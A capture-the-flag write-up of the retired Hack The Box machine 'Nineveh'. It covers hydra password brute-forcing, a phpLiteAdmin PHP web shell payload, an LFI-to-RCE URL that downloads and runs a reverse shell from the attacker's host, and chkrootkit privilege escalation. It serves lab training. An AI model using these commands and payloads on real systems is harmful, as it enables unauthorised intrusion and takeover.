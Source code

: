 ```yaml
---
layout: default
title: HTB -- NINEVEH
---
```


# NINEVEH 

![Screenshot_20220523_050328](https://user-images.githubusercontent.com/24994796/169735651-d11e0259-8e44-481d-9469-c2de4a931734.png)

This is a retired box with some nice concepts
Let's Jump right into it
Upon spawning the machine we are given an IP address

# Recon

Enumerating is very crucial, first let's see the ports that are open
Running an NMAP scan we get

![Screenshot_20220523_050503](https://user-images.githubusercontent.com/24994796/169736068-740ef7e9-67f2-4ea0-8564-afd803dbde02.png)

Only two ports are open port 80 and 443
- HTTP and HTTPS

So fuzzing the https we got some directories, we find a login page on both one at department the other at dbbut we can't do anything without logging in, same with the http

![Screenshot_20220523_055355](https://user-images.githubusercontent.com/24994796/169740328-1e85f12a-327c-4c73-86ba-db76abaac9ab.png)

# Initial foothold

Considering we havn't seen anything suspicous from our directory fuzzing, we attempting bruteforcing for the password using hydra

![Screenshot_20220521_051414](https://user-images.githubusercontent.com/24994796/169737324-62c906df-a783-454e-a5e8-fcfd7b8d0234.png)

Doesn't really take time to get the http login password, same with the https

To crack login password with hydra is quite simple as long as it has it's password in the wordlist
```hydra -l "admin" -u /usr/share/wordlists/rockyou.txt machine IP http-post-form "/path-of-request:reuest-body:error"```

You change the request body's username and password to ^USER^ & password ^PASS^
Path of request is the login directory 
The request body can be gotten fron firefox dev tools network option
The error is what you get after inputing wrong credentials
NOTE: if it's https it'll be http-post-form

![Screenshot_20220521_051404](https://user-images.githubusercontent.com/24994796/169738349-dbb1d0d3-2bd7-4fe5-9711-10a64aa235bd.png)

An Example of how it looks

# Initial Access

So Yh Now we have the user login for both services, Checking the https service first We get this 

![Screenshot_20220523_054452](https://user-images.githubusercontent.com/24994796/169739855-1d107ad1-0b9a-42bd-a276-9f2ffb8e1682.png)

We see it runs phpliteadmin v 1.9 - phpLiteAdmin is a web-based SQLite database admin tool written in PHP
There's an exploit on it on exploitdb and github

![Screenshot_20220523_055622](https://user-images.githubusercontent.com/24994796/169741579-8a7f5fdf-d3a5-4429-a1b5-fdf6c14f6be5.png)

This is easier to understand [GITHUB EXPLOIT](https://github.com/F-Masood/PHPLiteAdmin-1.9.3---Exploit-PoC) modify the malicious code to ```<?php system($_GET["cmd"])?>```

Heading back to our http /department directory
We see some directories, heading to notes we get this 

![Screenshot_20220521_064551](https://user-images.githubusercontent.com/24994796/169742132-1a2aa91c-3d95-4c62-a13d-c3c4568100f1.png)

Looking at the url it looks like an lfi is possible and in the github exploit, it did hint at lfi if you don't get rce
After a series of trial & error we get the lfi to rce and we can execute commands

![Screenshot_20220521_053145](https://user-images.githubusercontent.com/24994796/169742830-3ae23195-3402-4e5a-9e74-a64ee5d542d8.png)

From the rce we download a php revshel hosted on our server 

```http://nineveh.htb/department/manage.php?notes=files/ninevehNotes/../../../../../../var/tmp/saint.php&cmd=cd%20/tmp;id%20;%20pwd;%20whoami;%20wget%2010.10.14.24:8000/htbrev.php%20;%20ls%20-la%20;%20chmod%20+x%20htbrev.php%20;%20ls%20-la%20;%20php%20htbrev.php;%20id```

![Screenshot_20220521_055227](https://user-images.githubusercontent.com/24994796/169743188-7cafbda7-69df-4023-a4f4-3379b86d11f3.png)

# Privilege Escalation

On catching our shell we run a series of enumeration 
We locate the secure notes directories that was hinted to at notes
And the Image looks quite large, larger than it's predecessor by a lot, we try stringing it
But we cn't get all the files there, noticing the file path it's a https directory se we head to the directory, It displays an image, we download the image

![Screenshot_20220523_054406](https://user-images.githubusercontent.com/24994796/169744041-9ccce2a9-3388-48dc-81d3-0728dcd6cece.png)

We string it on out machine, we get both id_rsa (private key) and id_rsa.pub (public key)

But during our port scan we didn't get any ssh port open, so we run ```ss -tulnp``` to see listening ports on the machine 

If a port that didn't turn up in our scans is listening we can port forward to that port

![Screenshot_20220521_064157](https://user-images.githubusercontent.com/24994796/169744585-61eb7185-6593-49aa-83a8-672f142afcb9.png)

![Screenshot_20220521_065045](https://user-images.githubusercontent.com/24994796/169744602-81fb2b64-3401-4d1e-87df-4965432d1ede.png)

We tranfer the gotten id_rsa to the machine via hosting on a python server then downloading it to the victim machine
change it's permissions ```chmod 600 id_rsa```

Running linpeas (enumeration script)

We see a cron job running and we see some paths variable set

![Screenshot_20220521_075244](https://user-images.githubusercontent.com/24994796/169745170-96b2b0a8-cf6e-4fe2-91fc-71f7906539f0.png)

![Screenshot_20220521_075221](https://user-images.githubusercontent.com/24994796/169745181-1dd34d51-9994-41b8-8c19-0e27bfcef224.png)

so now reading the reports, it seems something is running

let's get pspy64 to enumerate all processes 

![Screenshot_20220523_065548](https://user-images.githubusercontent.com/24994796/169746255-04ee35ae-54f3-4a58-a291-e67f61f5882b.png)

We see lot's of /usr/bin/chkrootkit 
looking up chkrootkit we see there's an exploit for it

![Screenshot_20220523_065746](https://user-images.githubusercontent.com/24994796/169746565-d68f36c9-8818-4257-9f51-0b19742e998a.png)

![Screenshot_20220521_072335](https://user-images.githubusercontent.com/24994796/169746677-22ba5665-a4d9-4def-8c94-1c203ecb3048.png)

So now we create a file named update in /tmp give it execution rights then we wait for ten minutes

Ignore my previous attempts on top xD i tried creating the bin path and creating an rm executable xD

# AND WE ARE DONE

Hit me up on [Twitter](https://twitter.com/abdulmalik_ttg) if you run into any issues



<br> <br>
[Back To Home](../../index.md)
<br>




